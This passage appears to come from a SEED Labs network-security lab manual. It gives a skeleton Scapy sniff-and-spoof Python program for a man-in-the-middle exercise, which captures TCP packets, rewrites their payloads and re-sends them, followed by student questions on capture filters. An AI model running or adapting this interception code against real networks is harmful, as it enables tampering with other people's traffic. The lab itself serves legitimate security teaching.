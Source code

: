 \paragraph{MITM code.}
Once the IP forwarding is disabled, our program needs to take over
the role of packet forwarding from the victim to the target, of course
after making changes to the packets. Since the packet's destination 
is not for us, the kernel will not give the packet to us; it will simply
drops the packet. However, if our program is a sniffer program,
we will get the packet from the kernel. Therefore, we will use 
the sniff-and-spoof technique to implement this MITM attack.
In the following, we provide a skeleton sniff-and-spoof
program. The program captures all the TCP packets, and
then makes some changes. You need to modify this program.

\begin{lstlisting}[language=python]
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
   newpkt = IP(bytes(pkt[IP]))
   del(newpkt.chksum)
   del(newpkt[TCP].payload)
   del(newpkt[TCP].chksum)

   if pkt[TCP].payload:
       data = pkt[TCP].payload.load
       print("*** %s, length: %d" % (data, len(data)))

       # Replace a pattern
       newdata = data.replace(b'seedlabs', b'AAAAAAAA')

       send(newpkt/newdata)
   else:
       send(newpkt)

f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
\end{lstlisting}

It should be noted that the code above captures all the TCP
packets, including the one generated by the program itself. That is
undesirable, as it will affect
the performance. Students needs to change the filter, so it does not capture
its own packets.

\paragraph{Questions.} After you have succeeded in the attack, please 
answer the following questions: 

\begin{itemize}
  \item Question 4: In your MITM program, you only need to capture 
    the traffics in one direction. Please indicate which direction, 
    and explain why.

  \item Question 5: In the MITM program, when you capture the 
    \texttt{nc} traffics from A (\texttt{10.9.0.5}), 
    you can use A's IP address or MAC address in the filter. 
    One of the choices is not good and is going to create issues, 
    even though both choices may work. 
    Please try both, and use your experiment results to 
    show which choice is the correct one, and please
    explain your conclusion.
\end{itemize}
 



